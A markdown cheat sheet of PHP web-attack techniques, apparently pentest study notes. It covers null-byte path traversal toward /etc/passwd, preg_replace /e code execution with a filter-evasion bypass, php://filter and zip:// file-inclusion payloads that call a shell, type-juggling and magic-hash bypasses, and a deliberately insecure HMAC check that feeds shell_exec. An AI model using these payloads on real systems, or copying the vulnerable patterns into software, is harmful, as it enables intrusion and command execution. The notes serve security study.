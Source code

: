 # PHP

## References
- [Understanding PHP Object Injection](https://securitycafe.ro/2015/01/05/understanding-php-object-injection/)
- https://eev.ee/blog/2012/04/09/php-a-fractal-of-bad-design/
- https://www.acunetix.com/blog/articles/web-shells-101-using-php-introduction-web-shells-part-2/
- http://pentestmonkey.net/tools/web-shells/php-reverse-shell
- [PHP Remote File Inclusion command shell using data://](https://www.idontplaydarts.com/2011/03/php-remote-file-inclusion-command-shell-using-data-stream/)
- [Hardening and securing PHP on Linux](https://www.idontplaydarts.com/2011/02/hardening-and-securing-php-on-linux/)


- [HTTP Parameter Pollution with cookies in PHP](https://www.idontplaydarts.com/2013/06/http-parameter-pollution-with-cookies-in-php/)

## Terminate strings using null byte

Before `PHP 5.3` terminate strings using null byte is possible (%00 in URL)
```
http://example.com?param=../../../../etc/passed
  -> /etc/passed.php
http://example.com?param=../../../../etc/passed%00
  -> /etc/passed
```

## Vulnerable functions

Local / Remote file inclusion bugs:
```
include()
include_once()
require()
require_once()
```

Local / Remote command execution bugs:
```
eval()
preg_replace()
fwrite()
passthru()
file_get_contents()
shell_exec()
system()
```

SQL Injection bugs:
```
mysql_query()

```

File / File system bugs:
```
fopen()
readfile()
glob()
file()
popen()
exec()
```

> https://0xzoidberg.wordpress.com/2010/05/26/vulnerable-php-functions/

## RCE with PREG Functions

- implement regular expressions for the preg_ functions (preg_match, preg_replace)
- `/e` modifier which allows evaluation of PHP code in the preg_replace

Example:
```
<?php
$string = "this is my lower sting";
print preg_replace('/(.*)/e', 'strtoupper("\\1")', '$string');
?>

// THIS IS MY LOWER STING
```

Example Attack:
```
<?php
$string = "phpinfo()";
print preg_replace('/^(.*)/e', 'strtoupper(\\1)', $string);
?>
```

Filter Evasion:
- Prevent single quote and escape chars
```
Following will fail:
  $string = "system('ls -lah')";

Bypass:
  $string = "`ls -lah`";
```

> - Ref: http://www.madirish.net/402

## LFI with Filter Inclusion

- Useful when LFI is possible but ".php" is appended at end (and not vulnerable to null byte injection)
- `filter/convert.base64-encode` forces PHP to base64 encode the file before it is used in the require statement (`index​.php`)
```
http://example.com/?page=php://filter/convert.base64-encode/resource=index​
```

## LFI with Zip Inclusion (Include a file inside a zip)

- If it is possible to upload a zip file

```
http://example.com/?page=zip://uploads/zipfilename#shell.php?cmd=id
```

## LFI to RFI

- Possible if `allow_url_include` is on

## Type Juggling

References:
- [https://www.owasp.org/images/6/6b/PHPMagicTricks-TypeJuggling.pdf](https://www.owasp.org/images/6/6b/PHPMagicTricks-TypeJuggling.pdf)
- [https://www.netsparker.com/blog/web-security/php-type-juggling-vulnerabilities/](https://www.netsparker.com/blog/web-security/php-type-juggling-vulnerabilities/)
- [https://0xdf.gitlab.io/2018/06/23/htb-falafel.html#php-type-juggling-intro](https://0xdf.gitlab.io/2018/06/23/htb-falafel.html#php-type-juggling-intro)
- [https://pen-testing.sans.org/blog/2014/12/18/php-weak-typing-woes-with-some-pontification-about-code-and-pen-testing](https://pen-testing.sans.org/blog/2014/12/18/php-weak-typing-woes-with-some-pontification-about-code-and-pen-testing)

![1558284487209](_assets/PHP_loose_comparisons.png)

![](<_assets/table_representing_behavior_of_PHP_with_loose_type_comparisons.png>)

```
'0e1234' == '0e4321'
'0e1234' == '0'
'0e1234' <= '1'
'0xf' == '15' #0xf in hexadecimal notation is 15
```

```
'000...000' == int(0)
'0e0...000' == int(0)
'1e0...000' == int(1)
'0abc...000' == int(0)
'abc...000' == int(0) # if a string starts with a non numerical character it will default to int(0)
```

```
var_dump("2 bottles" == 2); // ==> TRUE

$values = array("apple","orange","pear","grape");
in_array(0, $values); // ==> TRUE

if($password == "secretpass")   // ==> TRUE when $password=0
```

### Reduction in Entropy (Insecure HMAC)

```
$secret = 'secure_random_secret_value';
$hmac = md5($secret . $_POST['message']);
if($hmac == $_POST['hmac'])    
		// ===> Bypass by creating a hmac starting with `0e[0-9]`
		// var_dump("0e123" == "0e51217526859264863"); ===> TRUE
        shell_exec($_POST['message']);
```

### Hashing Algorithm Disclosure

Given 240610708 and QNKCDZO attacker can guess that hashing algo is `md5`

```
var_dump(md5('240610708') == md5('QNKCDZO'));  ===> TRUE
```
